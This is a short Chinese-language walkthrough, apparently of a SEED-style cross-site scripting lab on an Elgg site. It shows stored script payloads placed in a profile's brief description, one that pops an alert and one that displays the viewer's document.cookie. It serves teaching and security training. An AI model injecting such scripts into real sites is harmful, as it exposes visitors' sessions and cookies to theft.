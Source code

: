 此任务的目标是将 JavaScript 程序嵌入到您的 Elgg 个人资料中，以便当其他用户查看您的个人资料时，将执行 JavaScript 程序并显示警报窗口。

登录 Samy 账号，修改 Brief description 为：

```html
<script>
    alert('XSS');
</script>
```

保存好后就已经生效了：

![1-1](../image/1-1.png)

---

## Task 2: Posting a Malicious Message to Display Cookies

此任务的目标是在您的 Elgg 个人资料中嵌入 JavaScript 程序，这样当其他用户查看您的个人资料时，该用户的 cookie 将显示在警报窗口中。

可以使用 `document.cookie` 来获取用户的 cookie。

我们修改 Samy 的 Brief description 为：

```html
<script>
    alert(document.cookie);
</script>
```
